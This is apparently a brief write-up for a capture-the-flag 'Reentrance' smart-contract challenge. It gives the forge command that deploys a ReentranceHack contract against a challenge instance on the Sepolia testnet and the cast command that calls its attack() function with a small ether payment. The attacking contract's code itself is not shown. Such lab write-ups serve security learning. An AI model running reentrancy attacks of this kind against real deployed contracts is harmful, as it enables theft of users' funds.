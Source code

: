 # Reentrance Solution

Deploy:

```bash
forge create ReentranceHack --broadcast --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args <instanceAddress>
```

Run:

```bash
cast send <reentranceHackAddress> "attack()" --value 10000000000000000wei --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

